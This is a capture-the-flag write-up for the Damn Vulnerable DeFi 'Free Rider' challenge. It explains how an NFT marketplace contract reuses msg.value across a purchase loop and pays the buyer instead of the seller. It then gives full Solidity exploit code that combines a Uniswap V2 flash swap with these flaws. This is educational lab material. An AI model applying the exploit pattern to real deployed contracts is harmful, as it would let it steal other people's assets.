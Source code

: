 # Free Rider

## Summary

This article outlines a solution for Damn Vulnerable DeFi Challenge #10: *Free Rider*.
Two key vulnerabilities were exploited:
  * **Improper `msg.value` reuse in loops**, leading to faulty payment validation.
  * **Incorrect payment distribution**, where funds were mistakenly sent to the buyer instead of the seller.
The challenge also highlights the existence and potential use of Uniswap V2’s flash loan feature.

## Link to the challenge

[https://www.damnvulnerabledefi.xyz/challenges/free-rider/](https://www.damnvulnerabledefi.xyz/challenges/free-rider/)

## The Challenge

```
A new marketplace of Damn Valuable NFTs has been released! There’s been an initial mint of 6 NFTs, which are available for sale in the marketplace. Each one at 15 ETH.

A critical vulnerability has been reported, claiming that all tokens can be taken. Yet the developers don’t know how to save them!

They’re offering a bounty of 45 ETH for whoever is willing to take the NFTs out and send them their way. The recovery process is managed by a dedicated smart contract.

You’ve agreed to help. Although, you only have 0.1 ETH in balance. The devs just won’t reply to your messages asking for more.

If only you could get free ETH, at least for an instant.
```

## Vulnerability Survey

### Improper `msg.value` Reuse in Loops

Although the `buyMany()` function is protected against reentrancy, the `_buyOne()` function reuses `msg.value` without updating it on each iteration. This causes a flaw where the same `msg.value` is applied across multiple iterations.

Let’s illustrate this with a simple table:

| id  | priceToPay | total  | msg.value | sold? | commentary                              |
|-----|------------|--------|-----------|-------|-----------------------------------------|
| 0   | 15 ETH     | 15 ETH | 15 ETH    | yes   | OK                                      |
| 1   | 15 ETH     | 30 ETH | 15 ETH    | yes   | Wait! Why? You should have discounted it before |
| 2   | 15 ETH     | 45 ETH | 15 ETH    | yes   | Still using the same `msg.value`, causing improper validation |


This behavior occurs due to the following code:

```solidity
function buyMany(uint256[] calldata tokenIds) external payable nonReentrant {
    for (uint256 i = 0; i < tokenIds.length; ++i) {
        unchecked {
            _buyOne(tokenIds[i]);
        }
    }
}

function _buyOne(uint256 tokenId) private {
    uint256 priceToPay = offers[tokenId];
    if (priceToPay == 0) {
        revert TokenNotOffered(tokenId);
    }

    if (msg.value < priceToPay) {
        revert InsufficientPayment();
    }

    --offersCount;

    // transfer from seller to buyer
    DamnValuableNFT _token = token; // cache for gas savings
    _token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

    // pay seller using cached token
    payable(_token.ownerOf(tokenId)).sendValue(priceToPay);

    emit NFTBought(msg.sender, tokenId, priceToPay);
}
```

### Incorrect Payment Distribution

To add to the contract's issues, let’s examine this snippet from `_buyOne()`:

```solidity
_token.safeTransferFrom(_token.ownerOf(tokenId), msg.sender, tokenId);

// pay seller using cached token
payable(_token.ownerOf(tokenId)).sendValue(priceToPay);
```

In this case, the NFT is transferred to the buyer first, making them the owner of the token. The next line then sends the payment to the owner, which is now the buyer, allowing them to receive the funds instead of the seller.

## Solution

### Issue a Flash Loan

To execute the attack, we need at least the price of one NFT (we only have 0.1 ETH!). Flash swaps are a built-in feature of Uniswap V2 [Reference](https://docs.uniswap.org/contracts/v2/reference/smart-contracts/pair#swap-1).

For regular swaps, `data.length` must be 0. However, if `data.length > 0`, the `uniswapV2Call()` function is invoked, passing the `data` parameter back to the caller.

Here’s the relevant code to initiate the swap:

```solidity
function test_freeRider() public checkSolvedByPlayer {
    uniswapPair.swap(
        NFT_PRICE,
        0,
        address(this),
        abi.encode(0)
    );
}
```

The `onERC721Received()` function also needs to be implemented as shown below:

```solidity
function onERC721Received(address, address, uint256, bytes calldata)
    external pure returns (bytes4) {
    return IERC721Receiver.onERC721Received.selector;
}
```

### Exploit `buyMany()`

The `buyMany()` function iterates over the provided IDs and calls `_buyOne()` for each NFT. However, because `msg.value` is reused across iterations, an attacker can use the value of the most expensive item to bypass validation and acquire all requested items in a single transaction.

The rest of the attack involves cleanup steps: sending the NFTs to the `RecoveryManager` contract, repaying the flash loan (including minting WETH to cover the fee), and transferring all collected ETH to the `player` account.

Here’s the full exploit code:

```solidity
function uniswapV2Call(address, uint256 amount, uint256, bytes calldata) external {
    uint256[] memory ids = new uint256[](AMOUNT_OF_NFTS);
    for (uint256 i = 0; i < AMOUNT_OF_NFTS; i++) {
        ids[i] = i;
    }
    marketplace.buyMany{value: NFT_PRICE}(ids);

    // Recovery Manager interaction
    bytes memory data = abi.encode(address(this));
    for (uint256 i = 0; i < AMOUNT_OF_NFTS; i++) {
        nft.safeTransferFrom(address(this), address(recoveryManager), i, data);
    }

    // Repay the flash loan
    uint256 fee = ((amount * 3) / 997) + 1;
    weth.deposit{value: fee}();
    uint256 amountToRepay = amount + fee;
    weth.transfer(address(uniswapPair), amountToRepay);

    // Send the bounty to the player
    payable(player).transfer(BOUNTY);
}
```

